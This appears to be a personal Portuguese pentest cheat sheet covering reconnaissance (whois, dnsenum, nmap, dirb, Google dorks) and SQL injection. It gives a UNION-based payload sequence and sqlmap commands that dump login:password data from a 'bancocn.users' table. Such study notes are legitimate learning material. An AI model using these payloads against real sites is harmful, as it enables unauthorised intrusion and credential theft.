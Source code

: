 # levantamento de informacoes
--------------------
### ip e dominio, contato, firewall etc:

no console: 
    whois dominio ou ip
    host dominio ou ip
    dnsenum dominio ou ip

para sites brasileiros: 
[registrobr](https://registro.br/)

dominio.com.br/robots.txt (exibir url's que o google nao deve mostrar)

filtros google: 
site:dominio.com.br (filtra o google p/url's somente daquele site)
intitle:"index of"

--------------------

### verificar se portas abertas/ouvindo/portscan
p/ portscan rapido: ferramenta: portscan.py
no console: 
    netcat ou nc dominio porta 
ferramenta: portscan.py


exemplo nc: 
    nc www.bancocn.com 80
    GET / HTTP/1.1

    request text

### verificar SO, portas, pacotes, servicoes, computadores ativos, firewall:
nmap ou zenmap (aplicacao visual do nmap)

--------------------

### brute force em dir:

dirb
obs: para bypass em firewall, passar user agent -a, cookie -c 



### erros:

HTTP:
    Sempre que nao encontrar pagina, 404
    Local nao autorizado ou erro de servidor interno, 500
    Tudo certo, 200


### SQI 

order by x--, ordernar por coluna p/descobrir o num de colunas

-1 union select 1,2, database()

database() ou group_concat(schema_name from) information_schema.schemata (para localizar nome do banco)

-1 union select 1,2, group_concat(table_name from) information_schema.tables where table_schema="nomedobanco" -> obter nome das tabelas

-1 union select 1,2, group_concat(column_name from) information_schema.columns where table_schema="nomedobanco" and table_name="nomedatabela" -> obter nome das colunas

-1 union select 1,2, group_concat(id, ":", login, ":", password) from bancocn.users -> obter o que eu quero

### SQI por sqlmap

sqlmap -r arquivo.txt --dbs --dbms=tipodebanco (descobrir nome dos bancos)

sqlmap -r arquivo.txt --dbms=tipodebanco -D nomedobanco -tables (obter nome das tabelas)


sqlmap -r arquivo.txt --dbms=tipodebanco -D nomedobanco -T nomedatabela --columns (obter nome das colunas)

sqlmap -r arquivo.txt --dbms=tipodebanco -D nomedobanco -T nomedatabela -C nomecoluna1,nomecoluna2,nomecolunaetc --dump (obter informacoes das colunas)